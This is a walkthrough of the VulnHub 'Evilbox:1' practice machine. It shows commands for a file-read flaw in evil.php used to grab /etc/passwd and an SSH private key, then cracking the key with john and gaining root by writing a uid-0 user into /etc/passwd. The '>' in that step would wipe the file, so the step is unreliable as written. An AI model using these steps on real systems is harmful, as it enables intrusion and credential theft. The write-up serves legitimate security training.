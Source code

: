 

# Evilbox:1 Walkthrough

**VulnHub Link:** [Evilbox:1](https://www.vulnhub.com/entry/evilbox-one,736/)
**Difficulty:** Easy
**Release Date:** 16 Aug 2021


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.170

## 2.Web Enumeration

dirb http://192.168.100.170

we found /secret/evil.php

```bash
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt http://192.168.100.170/secret/evil.php?command=/etc/passwd
```

mowree user found
```bash
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt http://192.168.100.170/secret/evil.php?command=/home/mowree/.ssh/id_rsa
```

we obtain ssh private key
```bash
ssh2john id_rsa > id_rsa.hash
```
john id_rsa.hash  --wordlist=/usr/share/wordlists/rockyou.txt

unicorn passphrase found
```bash
ssh -i id_rsa mowree@192.168.100.170
```
mowree shell opened

user flag found

we download and use linpeas 

and observe that passwd file can be writable

in our machine ---> 
```bash
openssl passwd test
```
copy that and edit it as

toor:$1$haSDMQjd$jQEk6B.vo1s.Z60eq/hXG/:0:0:root:/root:/bin/bash 

in attack machine
```bash
echo 'toor:$1$haSDMQjd$jQEk6B.vo1s.Z60eq/hXG/:0:0:root:/root:/bin/bash' > /etc/passwd
```
su toor 
(password test)

and BOOOMM . Root flag captured..!


